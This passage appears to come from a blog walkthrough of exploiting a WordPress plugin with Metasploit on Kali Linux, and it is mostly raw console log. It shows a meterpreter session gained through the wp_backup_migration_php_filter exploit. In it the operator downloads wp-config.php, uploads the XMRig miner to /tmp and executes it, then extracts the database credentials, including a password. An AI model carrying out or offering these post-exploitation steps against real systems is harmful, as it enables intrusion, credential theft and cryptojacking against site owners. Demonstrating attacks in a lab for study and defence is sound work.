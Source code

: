 ```console
 311  sh                             1001  sh -c ps ax -w -o pid,user,cmd --no-header 2>/dev/null
 312  ps                             1001  ps ax -w -o pid,user,cmd --no-header

meterpreter >
meterpreter > sysinfo
Computer    : wordpress-7c5479f8-n846l
OS          : Linux wordpress-7c5479f8-n846l 5.10.213-201.855.amzn2.x86_64 #1 SMP Mon Mar 25 18:16:11 UTC 2024 x86_64
Meterpreter : php/linux
meterpreter >
meterpreter > download /bitnami/wordpress/wp-config.php
[*] Downloading: /bitnami/wordpress/wp-config.php -> /home/kali/wp-config.php
[*] Downloaded 4.19 KiB of 4.19 KiB (100.0%): /bitnami/wordpress/wp-config.php -> /home/kali/wp-config.php
[*] Completed  : /bitnami/wordpress/wp-config.php -> /home/kali/wp-config.php
meterpreter >
meterpreter > upload xmrig /tmp/xmrig
[*] Uploading  : /home/kali/xmrig -> /tmp/xmrig
[*] Uploaded -1.00 B of 7.90 MiB (0.0%): /home/kali/xmrig -> /tmp/xmrig
[*] Completed  : /home/kali/xmrig -> /tmp/xmrig
meterpreter >
meterpreter > execute -i -H -f /usr/bin/sh -a '-c "chmod a+x /tmp/xmrig ; /tmp/xmrig --version"'
Process 316 created.
Channel 3 created.
XMRig 6.21.3
 built on Apr 23 2024 with GCC 13.2.1
 features: 64-bit AES

libuv/1.48.0
OpenSSL/3.0.13
hwloc/2.10.0
[-] core_channel_interact: Operation failed: 1
meterpreter > exit -y
[*] Shutting down session: 1

[*] 3.73.29.183 - Meterpreter session 1 closed.  Reason: User exit
msf6 exploit(multi/http/wp_backup_migration_php_filter) > exit -y

┌──(kali㉿kali)-[~]
└─$ grep DB_ wp-config.php
define( 'DB_NAME', 'bitnami_wordpress' );
define( 'DB_USER', 'bn_wordpress' );
define( 'DB_PASSWORD', 'vAX0wwd3wR' );
define( 'DB_HOST', 'wordpress-mariadb:3306' );
define( 'DB_CHARSET', 'utf8' );
define( 'DB_COLLATE', '' );
```

I really like the Metasploit's colors so I've add the logs as images here:

![Metasploit - wordpress_scanner](/assets/img/posts/2024/2024-04-27-exploit-vulnerability-wordpress-plugin-kali-linux/kali-linux-metasploit-wordpress_scanner.avif){:width="600"}
_Metasploit - wordpress_scanner_
